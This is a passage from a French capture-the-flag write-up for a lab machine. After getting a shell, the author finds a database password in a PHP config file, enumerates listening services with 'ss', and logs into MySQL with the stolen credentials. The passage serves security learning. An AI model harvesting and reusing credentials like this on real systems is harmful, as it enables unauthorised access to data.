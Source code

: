 ```bash
    public $conn;
    
    public function __construct(){

        if (!isset($this->conn)) {
            
            $this->conn = new mysqli($this->host, $this->username, $this->password, $this->database);
            
            if (!$this->conn) {
                echo 'Cannot connect to database server';
                exit;
            }            
        }    
        
    }
    public function __destruct(){
        $this->conn->close();
    }
}
?>

```

On obtient un shell on trouve un fichier qui est DBConnection.php qui contient un mot de passe qui est : YOUMKtIXoRjFgMqDJ3WR799tvq2UdNWE  
Un nom d'utilisateur : cts.  
Un nom de base de données.  

```bash
www-data@lockdown:/var/www/html$ ss -tpl
ss -tpl
State    Recv-Q    Send-Q        Local Address:Port         Peer Address:Port   
LISTEN   0         80                127.0.0.1:mysql             0.0.0.0:*      
LISTEN   0         128           127.0.0.53%lo:domain            0.0.0.0:*      
LISTEN   0         128                 0.0.0.0:ssh               0.0.0.0:*      
LISTEN   0         128                       *:http                    *:*      
LISTEN   0         128                    [::]:ssh                  [::]:*    

```

On voit que l'on peut aller sur une base de donnée.  

```bash
www-data@lockdown:/var/www/html$ mysql -h 127.0.0.1 -u cts -p
mysql -h 127.0.0.1 -u cts -p
Enter password: YOUMKtIXoRjFgMqDJ3WR799tvq2UdNWE

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 69833
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
```